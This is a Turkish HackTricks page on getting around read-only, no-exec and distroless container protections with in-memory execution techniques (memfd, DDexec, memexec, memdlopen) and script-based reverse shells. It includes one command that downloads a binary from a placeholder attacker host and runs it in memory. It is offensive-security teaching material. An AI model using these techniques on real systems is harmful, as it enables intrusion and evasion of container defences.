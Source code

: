 # FS korumalarını atlatma: salt okunur / no-exec / Distroless

<details>

<summary><strong>Sıfırdan kahraman olacak şekilde AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünleri**]'ni edinin (https://peass.creator-spring.com)
* [**PEASS Ailesi**]'ni keşfedin (https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**]'in koleksiyonu
* **Katılın** 💬 [**Discord grubumuza**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha detaylı açıklanmış şekilde bulabilirsiniz:

* [**DEF CON 31 - Gizlilik ve Kaçınma için Linux Bellek Manipülasyonu Keşfi**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ve bellek içi dlopen() ile Gizli sızıntılar - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## salt okunur / no-exec senaryosu

Özellikle konteynerlerde **salt okunur (ro) dosya sistemi koruması** ile donatılmış Linux makineleri bulmak artık daha yaygın hale gelmektedir. Bu, salt okunur dosya sistemiyle bir konteyner çalıştırmak için `securitycontext` içinde **`readOnlyRootFilesystem: true`** ayarlamak kadar kolaydır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi salt okunur olarak bağlanmış olsa bile, **`/dev/shm`** hala yazılabilir olacaktır, bu nedenle diske bir şey yazamayacağımızı düşünmek yanıltıcıdır. Bununla birlikte, bu klasör **no-exec koruması ile bağlanacaktır**, bu nedenle buraya bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım bakış açısından, bu, sistemde zaten olmayan ikili dosyaları indirip çalıştırmayı **karmaşık hale getirir** (örneğin, `kubectl` gibi arka kapılar veya numaralandırıcılar).
{% endhint %}

## En Kolay Atlatma: Betikler

İkili dosyaları bahsettiğimi unutmayın, **yorumlayıcının** makinede olması koşuluyla herhangi bir betiği **çalıştırabilirsiniz**, örneğin `sh` yüklüyse bir **kabuk betiği** veya `python` yüklüyse bir **python betiği**.

Ancak, bu, ikili geri kapı veya çalıştırmanız gerekebilecek diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Atlatmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu yapmanın en iyi yolu, **bellekten çalıştırmaktır**, çünkü **korumalar orada geçerli değildir**.

### FD + exec sistem çağrısı atlatma

Makinede **Python**, **Perl** veya **Ruby** gibi güçlü betik motorlarına sahipseniz, ikili dosyayı bellekten çalıştırmak için indirebilir, onu bir bellek dosya tanımlayıcısında saklayabilirsiniz (`create_memfd` sistem çağrısı), bu korumalar tarafından korunmayacak ve ardından bir **`exec` sistem çağrısı** yaparak **fd'yi çalıştırılacak dosya olarak belirtebilirsiniz**.

Bunun için kolayca [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kullanabilirsiniz. Bir ikili dosya iletebilir ve onu **b64 kodlanmış ve şifrelenmiş** bir şekilde içeren belirtilen dilde bir betik oluşturacak ve `create_memfd` sistem çağrısını çağırarak oluşturulan bir **fd** içinde **ikili dosyayı depolamak** ve onu çalıştırmak için **exec** sistem çağrısını çağıracaktır.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer betik dillerinde çalışmaz çünkü bunlar bir betikten **ham sistem çağrıları** yapmanın varsayılan bir yoluna sahip değillerdir, bu nedenle `create_memfd`'yi çağırmak için **bellek fd'si** oluşturmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **düzenli bir fd** oluşturmak çalışmayacaktır, çünkü **no-exec koruması** uygulanacağından çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec), kendi işlemizin **`/proc/self/mem`**'ini üzerine yazarak işlemimizin belleğini **değiştirmenizi** sağlayan bir tekniktir.

Bu nedenle, işlem tarafından yürütülen **derleme kodunu kontrol ederek**, bir **shellcode** yazabilir ve işlemi **herhangi bir keyfi kodu çalıştırmak üzere "mutasyona uğratabilirsiniz**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode**'unuzu veya **bellekten herhangi bir ikili dosyayı** yüklemenize ve **çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec), DDexec'in doğal bir sonraki adımıdır. Herhangi bir farklı ikili dosyayı çalıştırmak istediğinizde DDexec'i yeniden başlatmanıza gerek kalmaz, sadece memexec shellcode'unu DDexec tekniği aracılığıyla çalıştırabilir ve ardından bu deamon ile iletişim kurarak yeni ikili dosyaları yükleyip çalıştırabilirsiniz.

PHP ters kabuk kullanarak **memexec'i nasıl kullanacağınıza dair bir örnek** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulunabilir.

### Memdlopen

DDexec'e benzer bir amaçla, [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, daha sonra bunları çalıştırmak için belleğe ikili dosyaları yüklemenin daha kolay bir yolunu sağlar. Bağımlılıkları olan ikili dosyaları yüklemeyi bile mümkün kılabilir.

## Distroless Atlatma

### Distroless nedir

Distroless konteynerler, yalnızca belirli bir uygulamayı veya hizmeti çalıştırmak için gerekli olan en temel bileşenleri içerir; kütüphaneler ve çalışma zamanı bağımlılıkları gibi, ancak bir paket yöneticisi, kabuk veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak ve sömürülebilecek güvenlik açıklarının sayısını en aza indirmektir.

### Ters Kabuk

Distroless konteynerlerde genellikle düzenli bir kabuk almak için `sh` veya `bash` bulamayabilirsiniz. Ayrıca, genellikle bir sistemde çalıştırdığınız `ls`, `whoami`, `id` gibi ikili dosyaları da bulamazsınız.

{% hint style="warning" %}
Bu nedenle, genellikle sistemde yaptığınız gibi bir **ters kabuk** alamayacak veya sistemde **numaralandıramayacaksınız**.
{% endhint %}

Ancak, ele geçirilen bir konteyner örneğinde flask web çalışıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters kabuk** alabilirsiniz. Node çalışıyorsa, bir Node ters kabuk alabilirsiniz ve aynı şekilde çoğu **betik dili** ile yapabilirsiniz.

{% hint style="success" %}
Betik dili kullanarak dilin yeteneklerini kullanarak sistemde **numaralandırabilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters kabuğunuzu kullanarak dosya sistemine **ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde genellikle bu korumalar bulunacaktır, ancak bunları atlatmak için **önceki bellek yürütme tekniklerini kullanabilirsiniz**.
{% endhint %}

**RCE zafiyetlerini kullanarak bazı betik dilleri ile ters kabuk almayı ve bellekten ikili dosyaları çalıştırmayı nasıl istismar edeceğinize dair örnekler** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulunabilir.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek veya HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.
* **Hacking püf noktalarınızı göndererek HackTricks ve HackTricks Cloud** github depolarına PR'lar göndererek paylaşın.

</details>
